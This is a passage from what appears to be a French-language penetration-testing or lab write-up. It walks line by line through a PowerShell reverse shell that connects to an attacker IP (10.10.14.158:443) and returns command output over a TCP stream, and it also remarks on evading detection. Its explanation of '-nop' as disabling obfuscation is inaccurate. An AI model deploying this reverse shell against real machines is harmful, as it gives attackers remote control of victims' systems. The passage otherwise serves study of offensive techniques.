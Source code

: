 ```powershell
        # Ajout de l'invite de commande PowerShell avec le chemin courant à la sortie
        $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';

        # Conversion de la chaîne de sortie en tableau de bytes
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);

        # Envoi des données transformées au flux de sortie
        $stream.Write($sendbyte, 0, $sendbyte.Length);

        # Vidage du flux de sortie pour s'assurer que les données sont bien envoyées
        $stream.Flush();
    }

    # Fermeture de la connexion une fois la boucle terminée
    $client.Close();
"

```
{% endcode %}

{% hint style="warning" %}
1\. **`-nop -c`**

* **`-nop`** : Cet argument désactive l'obfuscation du code PowerShell et ne précharge pas le profil utilisateur, rendant l'exécution plus légère et potentiellement moins détectable.
* **`-c`** : Abréviation de `-Command`. Il permet d'exécuter directement la chaîne de commande PowerShell suivante.

#### 2. **`$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158', 443)`**

* **`$client`** : Cette variable représente un objet TCPClient, qui est utilisé pour établir une connexion réseau TCP.
* **`New-Object System.Net.Sockets.TCPClient`** : Cette commande crée une nouvelle instance de la classe `TCPClient` pour ouvrir une connexion TCP.
* **`'10.10.14.158', 443`** : Ce sont l'adresse IP de l'attaquant (10.10.14.158) et le port (443) sur lesquels la machine compromise va se connecter.
* **But** : Cette ligne établit une connexion à la machine de l'attaquant.

#### 3. **`$stream = $client.GetStream()`**

* **`$stream`** : Cette variable représente le flux de données (stream) associé à la connexion TCP.
* **`$client.GetStream()`** : Cela obtient le flux réseau à partir de l'objet `$client`, permettant d'envoyer et recevoir des données via la connexion TCP.
* **But** : Le flux est l'endroit où les commandes et les réponses seront échangées entre la machine compromise et l'attaquant.

#### 4. **`[byte[]]$bytes = 0..65535|%{0}`**

* **`[byte[]]`** : Cela définit un tableau de type `byte[]` (un tableau d'octets) pour stocker les données qui seront lues depuis le flux réseau.
* **`0..65535`** : Cela génère une plage de nombres allant de 0 à 65535 (correspondant à la taille maximale d'une trame de données).
* **`%{0}`** : Pour chaque élément de cette plage, il remplit le tableau avec des zéros.
* **But** : Cette ligne initialise un tableau d'octets de taille 65536 pour recevoir les données à partir du flux.
